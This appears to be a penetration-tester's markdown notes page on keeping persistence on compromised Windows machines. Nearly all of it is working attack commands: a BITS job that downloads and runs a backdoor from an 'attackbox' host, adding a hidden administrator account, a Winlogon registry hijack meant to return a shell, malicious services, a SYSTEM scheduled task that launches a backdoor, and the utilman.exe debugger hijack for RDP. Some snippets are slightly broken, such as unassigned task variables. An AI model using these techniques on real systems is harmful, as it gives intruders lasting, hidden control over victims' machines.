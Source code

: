 # Persistence

Reasons for wanting persistence on a machine or network:
1. Backdooring and post-detection re-entrance.
2. Stability and a operational section of the network to work from.
3. Gaining foothold a hard to reproduce, especially if is phished for.
4. Re-exploitation is not alway possible post compromised or is also not fittly stealthy.
5. The SOC or Blue/Purple teams may have or would make significantly easier to detect.

For specifically [[Active-Directory-Persistence]] or [[Windows-Persistence]].


## Persistence Bottom-Up

#### Startup folder persistence
```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
Edit the registry, Startup from registry editing
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

#### BITS Jobs
```powershell
# Note: In order to work you have to have a webserver running so BITS can download the backdoor and Metasploit listening for connections.
# ALSO Note: BITS is very unstable and can and might give you just temporary persistence.
bitsadmin /addfile backdoor "http://attackbox:port/backdoor.exe" "C:\Users\%username%\somewhere\backdoor.exe"
bitsadmin /SetNotifyCmdline 1 cmd.exe "/c bitsadmin.exe /complete backdoor | start /B C:\path\backdoor.exe"
bitsadmin /SetMinRetryDelay backdoor 30
bitsadmin /resume
```


##  Persistence Top-Down
#### Creating another administrator user
```powershell
net user /add <user> <password>
net localgroup Administrators backdoor /add
```
####  Edit the registry
User logon that sends you a shell:
```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, <PATH_TO_BINARY>" /f 
```

#### Persistence by creating a service
```powershell
New-Service -Name "<SERVICE_NAME>" -BinaryPathName "<PATH_TO_BINARY>" -Description "<SERVICE_DESCRIPTION>" -StartupType "Boot"
```
#### Scheduled tasks
```powershell
New-ScheduledTaskAction -Execute "cmd.exe" -ARgument "/ C:\path\backdoor.exe"
New-ScheduledTaskTrigger -AtlogOn
New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -RunLevel Highest
New-ScheduledTaskSettingsSet
Register-ScheduledTask -Action $A -Trigger $B -Principal $C -Settings $D
Register-ScheduledTask Backdoor -InputObject $E
```
####  Backdooring RDP
```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f	
```